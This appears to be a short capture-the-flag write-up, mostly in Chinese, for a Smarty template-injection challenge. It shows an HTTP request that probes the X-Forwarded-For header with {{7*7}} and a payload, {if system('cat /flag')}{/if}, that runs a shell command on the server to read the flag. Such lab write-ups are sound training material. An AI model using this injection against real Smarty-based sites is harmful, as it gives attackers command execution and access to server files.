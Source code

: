 SSTI

```http
GET /flag.php HTTP/1.1
Host: node4.buuoj.cn:26408
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 Edg/116.0.1938.76
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://node4.buuoj.cn:26408/hint.php
X-Forwarded-For: {{7*7}}
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,ja;q=0.5,zh-TW;q=0.4,no;q=0.3,ko;q=0.2
Connection: close


```

回显为 49

https://www.freebuf.com/column/219913.html Smarty SSTI 攻击

payload

```payload
X-Forwarded-For: {if system('cat /flag')}{/if}
```

![flag](flag.png)

